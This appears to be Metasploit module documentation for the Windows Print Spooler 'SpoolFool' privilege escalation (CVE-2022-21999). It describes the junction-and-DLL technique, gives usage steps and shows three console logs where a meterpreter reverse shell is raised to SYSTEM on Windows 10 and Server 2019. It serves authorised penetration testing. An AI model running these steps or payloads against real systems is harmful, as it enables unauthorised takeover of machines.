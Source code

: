 
## Vulnerable Application

The Windows Print Spooler has a privilege escalation vulnerability that
can be leveraged to achieve code execution as SYSTEM.

The `SpoolDirectory`, a configuration setting that holds the path that
a printer's spooled jobs are sent to, is writable for all users, and it can
be configured via `SetPrinterDataEx()` provided the caller has the
`PRINTER_ACCESS_ADMINISTER` permission. If the `SpoolDirectory` path does not
exist, it will be created once the print spooler reinitializes.

Calling `SetPrinterDataEx()` with the `CopyFiles\` registry key will load the
dll passed in as the `pData` argument, meaning that writing a dll to the `SpoolDirectory`
location can be loaded by the print spooler.

Using a directory junction and UNC path for the `SpoolDirectory`, the exploit
writes a payload to `C:\Windows\System32\spool\drivers\x64\4` and loads it
by calling `SetPrinterDataEx()`, resulting in code execution as SYSTEM.

This has been tested on Windows 10 and Windows Server 2019.

## Verification Steps

1. Get a meterpreter session on the target
2. Do: `use exploit/windows/local/spoolfool_privesc`
3. Do: `set SESSION <sess_no>`
4. Do: `set LHOST <lhost>`
5. Do: `set LPORT <port_no>`
6. Do: `run`
7. You should get a meterpreter session with SYSTEM privileges.

## Options

### WAIT_TIME

The time to wait for the print spooler to restart

## Scenarios

### Windows 10 21H2 (Build 19044.1288)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.146:49674 ) at 2022-03-14 09:02:21 -0500

meterpreter > getuid
Server username: DESKTOP-49N0D8H\shelbypace
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd
[+] Printer DZBUma was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd\4
[*] Creating junction point: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\tqDNFaf.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.146:49677 ) at 2022-03-14 09:08:36 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1709 (Build 16299)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.144:49671 ) at 2022-03-11 08:02:46 -0600

meterpreter > getuid
Server username: DESKTOP-EULFBD8\space
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\Xvamagt
[+] Printer ukfoJL was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\space\AppData\Local\Temp\Xvamagt\4
[*] Creating junction point: C:\Users\space\AppData\Local\Temp\Xvamagt -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\UYoQz.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.144:49674 ) at 2022-03-11 08:08:32 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

## Windows Server 2019 v1809 (Build 17763.1577)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.142:49674 ) at 2022-03-10 16:55:26 -0600

meterpreter > getuid
Server username: WIN-VR5A12O80FQ\space
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\ruXuBfgxx
[*] v4 directory already exists.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\dVADJcO.dll
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.142:49675 ) at 2022-03-10 17:01:02 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
